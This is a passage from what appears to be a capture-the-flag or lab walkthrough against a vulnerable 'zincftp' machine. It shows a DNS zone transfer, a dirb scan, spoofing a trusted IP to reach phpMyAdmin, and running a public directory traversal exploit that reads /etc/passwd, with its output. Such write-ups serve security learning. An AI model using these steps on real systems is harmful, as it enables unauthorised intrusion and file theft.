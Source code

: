 rfrost.zincftp.com.     38400   IN      A       192.168.1.88
rwoo.zincftp.com.       38400   IN      A       192.168.1.88
skrymple.zincftp.com.   38400   IN      A       192.168.1.88
splath.zincftp.com.     38400   IN      A       192.168.1.88
tmartin.zincftp.com.    38400   IN      A       192.168.1.88
trusted.zincftp.com.    38400   IN      A       192.168.1.34
www.zincftp.com.        38400   IN      A       192.168.1.88
zincftp.com.            38400   IN      SOA     ns1.zincftp.com. ns2.zincftp.com. 2006071801 28800 3600 604800 38400
;; Query time: 5 msec
;; SERVER: 192.168.1.88#53(192.168.1.88)
;; WHEN: Sun May  3 01:08:24 2015
;; XFR size: 42 records (messages 1, bytes 1021)
{% endcodeblock %}

Appending the list to /etc/hosts:
{% codeblock lang:bash %}
root@kali32:~# dig @192.168.1.88 zincftp.com axfr | egrep '192.168.1.88$' | awk '{ print $5 " " $1}'  | sed 's#.$##' >> /etc/hosts
{% endcodeblock %}

Dirb reports the following URLs:
{% codeblock %}
---- Scanning URL: http://www.zincftp.com/ ----
+ http://www.zincftp.com/index (CODE:200|SIZE:1205)
+ http://www.zincftp.com/index.php (CODE:200|SIZE:1205)
+ http://www.zincftp.com/phpMyAdmin (CODE:403|SIZE:333)
+ http://www.zincftp.com/register (CODE:200|SIZE:16)
+ http://www.zincftp.com/server-status (CODE:403|SIZE:336)
+ http://www.zincftp.com/setup_guides
{% endcodeblock %}

In particular the interesting file was http://www.zincftp.com/setup_guides/todo
{% codeblock lang:bash %}

{% endcodeblock %}

Again we set our IP address to match the "trusted.zincftp.com" host, to get access to phpmyadmin:
{% codeblock %}
root@kali32:~# ifconfig eth0:1 192.168.1.34
{% endcodeblock %}

We found nothing interesting in phpmyadmin, but it's vulnerable and we can interpret the arbitrary file on web server as PHP script.
{% codeblock %}
root@kali32:/usr/share/exploitdb# ./searchsploit phpmyadmin | grep 2.6
phpMyAdmin 2.6.4-pl1 - Remote Directory Traversal Exploit | /php/webapps/1244.pl
root@kali32:/usr/share/exploitdb# perl platforms/php/webapps/1244.pl http://192.168.1.88 /phpMyAdmin/ ../../../../../../../etc/passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh